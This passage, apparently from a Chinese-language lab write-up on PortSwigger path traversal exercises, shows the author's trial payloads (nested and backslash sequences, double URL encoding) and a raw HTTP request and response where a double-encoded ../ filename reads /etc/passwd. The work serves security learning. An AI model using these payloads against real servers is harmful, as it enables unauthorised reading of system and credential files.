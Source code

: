 ```http
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 200 OK
Content-Type: image/jpeg
Set-Cookie: session=6eI5Stzdmcj99g8D5HpHNqlLuE7qUXpU; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 2316

root:x:0:0:root:/root:/bin/bash
......
```

但奇怪的是反斜杠为啥无法读取，按理说没过滤才对。

```bash
..../\/..../\/..../etc/passwd
..\/\/..\/\/..\/\/..\/etc/passwd
```

#### Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

题意：应用还是过滤了遍历，在处理前进行了 URL 解码。

试了试双写不行，二次编码也不行，防护应该不是剔除。

```bash
./....//....//....//etc/passwd

.%252f....%252f%252f....%252f%252f....%252f%252fetc%252fpasswd
```

看了官方答案和 [z3nsh3ll](https://www.youtube.com/watch?v=nclJPOL3PXc) 详细解答，只是把要过滤的特殊字符斜线 / 二次编码即可。

```bash
..%252f..%252f..%252fetc/passwd
```

因此成功解决。

```bash
GET /image?filename=.%252f..%252f%252f..%252f%252f..%252f%252fetc%252fpasswd HTTP/2
Host: 0af700990422e09d807c4e50007300b4.web-security-academy.net
Cookie: session=Mn7ofDrzZJBGd8aA7kE359u37yjxXgQr
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Dnt: 1
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.47
Sec-Ch-Ua-Platform: "Windows"
Accept: image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a5200070353807a805a21e800aa0009.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 200 OK
Content-Type: image/jpeg
Set-Cookie: session=tXFiKOBX8VdXvNYiChd7euvZcnveBhye; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 2316

root:x:0:0:root:/root:/bin/bash
```